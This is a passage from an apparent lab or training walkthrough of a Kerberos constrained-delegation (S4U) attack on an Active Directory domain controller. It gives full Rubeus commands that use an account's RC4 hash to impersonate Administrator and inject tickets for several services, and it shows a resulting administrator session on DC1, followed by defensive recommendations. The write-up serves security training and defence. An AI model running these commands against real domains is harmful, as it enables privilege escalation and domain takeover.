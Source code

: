 ```powershell
Enter-PSSession dc1
```

**Successful Connection:**

```
[dc1]: PS C:\Users\Administrator\Documents> hostname
DC1
[dc1]: PS C:\Users\Administrator\Documents> whoami  
eagle\administrator
```

### Troubleshooting

#### Access Denied Error

If you get "Access is denied" when connecting:

1.  **Retry with correct parameter:**

    ```powershell
    # Use /ptt instead of /pt
    .\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
    ```
2.  **Clear existing tickets:**

    ```powershell
    klist purge
    # Then retry the attack
    ```
3.  **Request multiple service tickets:**

    ```powershell
    .\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /altservice:cifs,ldap,host,rpcss /dc:dc1.eagle.local /ptt
    ```

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2Fc0dlNjnBTA6xQdsLpLnJ%2FScreenshot%202025-09-13%20at%208.45.34%E2%80%AFPM.png?alt=media&#x26;token=5046cac6-5351-41f6-931b-d5e159dd1cbf" alt=""><figcaption></figcaption></figure>

### Defense Strategies

#### Prevention

1.  **Configure sensitive accounts:**

    ```
    Account is sensitive and cannot be delegated
    ```
2. **Use Protected Users group:**
   * Add privileged accounts to Protected Users group
   * Automatically applies delegation protection
3. **Strong password policies:**
   * Use cryptographically secure passwords
   * Prevent Kerberoasting attacks
4. **Minimize delegation usage:**
   * Avoid delegation unless absolutely necessary
   * Regular audit of delegation configurations
